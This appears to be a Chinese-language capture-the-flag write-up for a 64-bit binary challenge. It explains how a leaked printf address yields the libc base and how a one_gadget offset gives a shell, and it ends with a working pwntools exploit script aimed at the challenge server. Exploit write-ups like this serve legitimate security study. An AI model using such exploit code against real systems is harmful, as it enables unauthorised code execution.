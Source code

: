 程序是64位的，首先checksec

![image-20201101141818205](https://static.hack1s.fun/images/2021/02/06/image-20201101141818205.png)

运行一下之后首先有一个说`here is a gift for u`

这里直接输出了printf的地址，拿这个地址可以去查到libc的基地址和版本

![image-20201101142701814](https://static.hack1s.fun/images/2021/02/06/image-20201101142701814.png)



之后要求输入一个`gadget`

![image-20201101142126563](https://static.hack1s.fun/images/2021/02/06/image-20201101142126563.png)

在程序的函数中可以看到

![image-20201101142037053](https://static.hack1s.fun/images/2021/02/06/image-20201101142037053.png)

直接就是跳到了这个gadget的位置

那么思路就是，通过printf的地址计算出libc的基地址；

之后用one_gadget搜索其中的system或execve，直接把gadget输入给程序

![image-20201102162750820](https://static.hack1s.fun/images/2021/02/06/image-20201102162750820.png)

测试后最后一个gadget是可以正常执行的

```python
from pwn import *

io = remote('node3.buuoj.cn',26587)
#io = process('./one_gadget')
libc = ELF('./libc-2.29.so')

printf_offset = libc.sym['printf']

io.recvuntil(' u:')

printf_addr = int(io.recvline()[:-1],16)

libc_base = printf_addr - printf_offset
gadget = 0x106ef8

io.sendline(str(libc_base+gadget)+'\n')
io.interactive()
```

